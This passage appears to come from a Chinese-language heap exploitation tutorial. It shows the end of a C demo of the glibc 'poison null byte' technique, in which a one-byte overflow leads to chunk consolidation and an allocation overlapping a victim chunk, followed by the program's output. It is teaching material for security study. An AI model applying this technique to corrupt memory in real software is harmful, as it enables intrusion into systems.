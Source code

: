 ```c
    b2 = malloc(0x40);
    memset(b2, 'A', 0x40);
    fprintf(stderr, "We malloc 'b2', our 'victim' chunk: %p\n", b2);

    // deal with tcache
    // for (i = 0; i < 7; i++) {
    //     k[i] = malloc(0x80);
    // }
    // for (i = 0; i < 7; i++) {
    //     free(k[i]);
    // }
    free(b1);
    free(c);
    fprintf(stderr, "Now we free 'b1' and 'c', this will consolidate the chunks 'b1' and 'c' (forgetting about 'b2').\n");

    d = malloc(0x110);
    fprintf(stderr, "Finally, we allocate 'd', overlapping 'b2': %p\n\n", d);

    fprintf(stderr, "b2 content:%s\n", b2);
    memset(d, 'B', 0xb0);
    fprintf(stderr, "New b2 content:%s\n", b2);
}
```
```
$ gcc -g poison_null_byte.c 
$ ./a.out 
We allocate 0x10 bytes for 'a': 0xabb010
'real' size of 'a': 0x18
b: 0xabb030
c: 0xabb140
b.size: 0x111 ((0x100 + 0x10) | prev_in_use)

After free(b), c.prev_size: 0x110
We overflow 'a' with a single null byte into the metadata of 'b'
b.size: 0x100

Pass the check: chunksize(P) == 0x100 == 0x100 == prev_size (next_chunk(P))
We malloc 'b1': 0xabb030
c.prev_size: 0x110
fake c.prev_size: 0x70

We malloc 'b2', our 'victim' chunk: 0xabb0c0
Now we free 'b1' and 'c', this will consolidate the chunks 'b1' and 'c' (forgetting about 'b2').
Finally, we allocate 'd', overlapping 'b2': 0xabb030

b2 content:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
New b2 content:BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
该技术适用的场景需要某个 malloc 的内存区域存在一个单字节溢出漏洞。
